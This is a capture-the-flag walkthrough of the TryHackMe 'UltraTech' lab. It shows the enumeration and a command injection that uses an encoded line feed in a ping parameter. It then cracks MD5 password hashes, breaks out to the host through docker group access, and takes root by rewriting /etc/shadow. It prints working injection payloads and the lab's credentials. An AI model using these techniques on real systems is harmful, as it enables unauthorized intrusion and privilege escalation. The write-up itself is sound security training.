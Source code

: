 ```yaml
---
date: 2025-01-03
categories: [CTF, THM]
title: "THM - UltraTech"
tags: ['docker breakout', 'gobuster', 'hashcat', 'nmap', 'privilege escalation', 'rce', 'sqli']

description: "UltraTech - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - UltraTech

NMAP
```bash
nmap 10.10.200.110 -p- -T5
```

![image1](../resources/336adee1e2a847c7bca8480b6abebc97.png)

```bash
nmap 10.10.200.110 -p 31331 -A
```

![image2](../resources/29ecbbb1da6341daa229d6034f4d8ee3.png)

- Directory bruteforcing:
```bash
gobuster dir -u http://10.10.200.110:8081 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image3](../resources/f6280d75e7ba4a19889faa87d2aee99d.png)

```bash
gobuster dir -u http://10.10.200.110:31331 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image4](../resources/b77d1e1548394ea39d343f7fa0244801.png)

/robots.txt


![image5](../resources/8ec45d670672469f8de522d57b5c73fd.png)

/utech_sitemap.txt


![image6](../resources/a7f0c6ca8c72487bb0ce1977835565fb.png)

/partners.html


![image7](../resources/8ea6a40830084b6488e6907a835d49fd.png)

Got a login page

- Look at traffic in Burp
Looking at  `http://10.10.200.110:31331/partners.html`

The site constantly pings to see if the server is online


![image8](../resources/04192fa6ad5340638b54a7509fbae77a.png)

- Changing the parameters of the GET request we can get RCE

[URL encoding cheatsheet](https://www.eso.org/~ndelmott/url_encode.html)

- Normal space is url encoded as **%20**

- A **line feed** (0x0A) is url encoded as **%0A**
A line feed means moving one line forward. The code is **\n**

- You need to use a line feed character (**\n**) URL encoded because a normal space doesn't work

```bash
GET /ping?ip=10.10.200.110%0Als

```

![image9](../resources/7c03b9d409cc454ba470967f25716186.png)

```bash
GET /ping?ip=10.10.200.110%0Acat%20utech.db.sqlite

```

![image10](../resources/ba3f82b8006d4285ab4f9e60d344cce1.png)

(ignore the M before the names)

Found hashes:

**r00t : f357a0c52799563c7c7b76c1e7543a32**

**admin : 0d0ea5111e3c1def594c1684e3b9be84**

```bash
hash-identifier

```

![image11](../resources/603611db9b3d434cb445ee17cce637fe.png)


![image12](../resources/4da5a4e986fb4298abb1dccf4b8a7d3a.png)

- Crack with hashcat
```bash
hashcat -m 0 -a 0 hashes /usr/share/wordlists/rockyou.txt

```

![image13](../resources/ce79b4f12e29423b8e2f3a9ee2f41500.png)

- Credentials:
**r00t : n100906**

**admin : mrsheafy**

- SSH with r00t

![image14](../resources/2b769bfa5fdc49cc8c8f54a4bab7f530.png)


![image15](../resources/95fc6f33053545219c13463a93df6f13.png)
- We can see we are in the docker group

- **<u>Escape the container:</u>**

```bash
docker images

```

![image16](../resources/e70b9fee7aff4f11b8061dc5b34fc431.png)

- **<u>In Practise:</u>**

- Check gtfobins <https://gtfobins.github.io/gtfobins/docker/> for the command:


![image17](../resources/294a17f538654586a8ece330796ca81d.png)

- If we run this command we'll get an error:

![image18](../resources/3b2e0202b0394cf2b17cd2b78fea5eb7.png)

- So we need to list the available images:

```bash
docker ps -a

```

![image19](../resources/9866d3f6063d4a248c1d6726631f6379.png)

- Change the image name to **bash**

**Option 1 - command:**

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh

What this command does is, it creates a new container and mounts the entire ultratech-prod filesystem / to this container

```

![image20](../resources/7d683de391344a229b39081e78df1286.png)

**Option 2 - Command:**

```bash
docker run -v /:/mnt -it bash
```
What this command does is similar to Option 1, it creates a new container and mounts the entire ultratech-prod filesystem **/**. But it mounts it to **/mnt** on the container



![image21](../resources/2f7d8f390a9e4cf9b741c39d94275e78.png)


![image22](../resources/6e29f47e114f41b4a123e28a045d69ef.png)

- **We are root (in the container)**
- We can now read all the root files

- <u>To get root on the host machine (using Option 1):</u>

- On Kali - Make a MD5 hash:

```bash
mkpasswd -m md5 pass123

```

![image23](../resources/8725cc9f13d94b6682a120a9970ceec0.png)

- On the target - in the container (because we're root now)
```bash
vi /etc/shadow

```
Press **i** (for insert)

Remove the hash of the root user (second field) and replace with the hash you made


![image24](../resources/5dbfc491ee1545f6b2e3408768a6efd4.png)

```bash
Press ESC

Press :wq

ENTER

```
- exit out of the container
```bash
exit

```
```bash
su root
```
Enter password you made


![image25](../resources/4624215e87734191914682913d6ab4dc.png)


![image26](../resources/59e067c95da64a05be4f3853aefdb08f.png)